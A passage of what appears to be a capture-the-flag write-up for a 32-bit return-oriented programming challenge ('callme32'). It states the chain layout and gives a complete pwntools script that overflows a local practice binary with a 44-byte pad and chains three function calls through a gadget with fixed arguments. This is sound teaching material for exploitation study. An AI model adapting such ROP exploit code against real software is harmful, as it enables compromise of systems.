 <br/>

The exploit should be pad + callme one + gadget + arg1 + arg2 + arg3 + callme two + gadget + arg1 + arg2 + arg3 + callme three + gadget + arg1 + arg2 + arg3

<br/>

And here's the exploit

```python
from pwn import *

p = process("./callme32")

pad = b'a'*44

arg1 = p32(0x0DEADBEEF)
arg2 = p32(0x0CAFEBABE)
arg3 = p32(0x0D00DF00D)

callme_one_addr = p32(0x080484f0)
callme_two_addr = p32(0x08048550)
callme_three_addr = p32(0x080484e0)

gadget = p32(0x080487f9)

payload = pad
payload += callme_one_addr
payload += gadget
payload += arg1
payload += arg2
payload += arg3
payload += callme_two_addr
payload += gadget
payload += arg1
payload += arg2
payload += arg3
payload += callme_three_addr
payload += gadget
payload += arg1
payload += arg2
payload += arg3


p.sendline(payload)
p.interactive()
```
